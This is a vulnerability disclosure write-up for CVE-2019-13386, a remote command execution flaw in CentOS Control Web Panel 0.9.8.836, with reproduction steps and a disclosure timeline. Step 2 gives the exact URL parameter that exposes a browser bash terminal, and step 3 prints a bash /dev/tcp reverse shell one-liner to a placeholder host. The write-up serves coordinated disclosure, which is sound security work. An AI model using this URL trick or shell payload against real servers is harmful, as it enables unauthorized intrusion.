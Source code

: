 # Information

```
# Exploit Title       : CWP (CentOS Control Web Panel) 0.9.8.836 - Remote Command Execution
# Date                : 6 July 2019
# Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
# Vendor Homepage     : https://control-webpanel.com/
# Software Link       : Not available, user panel only available for lastest version
# Version             : 0.9.8.836
# Tested on           : CentOS 7.6.1810 (Core)
# CVE                 : CVE-2019-13386
```

# Description

From the application interface, it does not allow user to run OS commands directly. If user want to run OS commands, they need to do it through crontab function. The vulnerability allows users to executed OS commands directly through web browser.

#  Steps to Reproduce

1. Login into the CentOS Web Panel using user credential

<kbd>![](resources/CVE-2019-13386.md/2019-07-23-15-40-04.png)</kbd>

<br>

2. Add "?action=9" on url , bash terminal will show then users can run OS commands through web browser
``` 
Example: https://[target.com]:2083/cwp_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/username/fileManager2.php?action=9
```
<kbd>![](resources/CVE-2019-13386.md/2019-07-23-16-31-38.png)</kbd>

<br>

3. Create reverse shell through OS commands 
``` 
Reverse shell payload "bash -i >& /dev/tcp/[local IP Address]/[port] 0>&1"
``` 
<kbd>![](resources/CVE-2019-13386.md/2019-07-23-16-34-16.png)</kbd>


#  Timeline

```
2019-07-05: Discovered the bug
2019-07-05: Reported to vendor
2019-07-05: Vender accepted the vulnerability
2019-07-11: The vulnerability has been fixed
2019-07-23: Published
```
